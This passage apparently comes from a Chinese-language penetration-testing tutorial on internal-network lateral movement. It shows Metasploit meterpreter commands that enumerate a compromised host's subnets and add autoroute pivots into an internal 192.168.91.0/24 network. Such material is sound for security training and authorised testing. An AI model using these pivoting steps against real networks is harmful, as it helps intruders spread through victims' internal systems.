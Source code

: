 [![](assets/1702372940-0f85084c9d9c03d30b1120698445200d.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/35.png)

```bash
# 查看路由，获取当前机器的所有网段信息
$meterpreter > run get_local_subnets

# 自动查看路由信息
$meterpreter > run post/multi/manage/autoroute
```

[![](assets/1702372940-aff72c1c2d5c717bbf71e5a333985cbb.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/36.png)

```bash
# 获取路由信息后添加路由
$meterpreter > background

$msf6 exploit(multi/handler) > route add 192.168.91.0 255.255.255.0 1

# 返回sessions
$meterpreter > sessions 1

# 获取路由地址信息：
$meterpreter > run autoroute -p
```
